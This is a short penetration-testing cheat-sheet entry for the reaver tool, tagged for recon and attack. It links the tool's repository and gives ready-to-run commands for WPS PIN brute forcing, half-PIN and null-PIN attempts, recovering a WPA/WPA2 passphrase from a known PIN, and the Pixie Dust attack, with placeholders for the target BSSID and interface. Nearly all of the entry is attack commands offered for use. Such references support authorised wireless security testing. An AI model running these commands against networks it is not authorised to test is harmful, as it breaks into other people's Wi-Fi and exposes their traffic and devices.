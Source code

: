 # reaver
% wifi, reaver, wps
#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## _desc
```
```

## _repo
```
https://github.com/t6x/reaver-wps-fork-t6x
```

## _doc
```
Reaver implements a brute force attack against Wifi Protected Setup (WPS) registrar PINs in order to recover WPA/WPA2 passphrases
```

## _install
```
```

## PIN brute force
```bash
sudo reaver -v -b <bssid> -c <wlan_channel> -i <wlan_mon_interface|wmon>
```


## PIN brute force (half PIN)
```bash
sudo reaver -v -b <bssid> -c <wlan_channel> -i <wlan_mon_interface|wmon> -p <half_pin>
```

## Null PIN
```bash
sudo reaver -v -b <bssid> -c <wlan_channel> -i <wlan_mon_interface|wmon> -p " "
```

## retrive PSK from PIN
```bash
sudo reaver -v -i <wlan_mon_interface|wmon> -b <bssid> -p <pin>
```

## Pixie Dust attack
```bash
reaver -K 1 -vvv -b <bssid> -c <wlan_channel> -i <wlan_mon_interface|wmon>
```
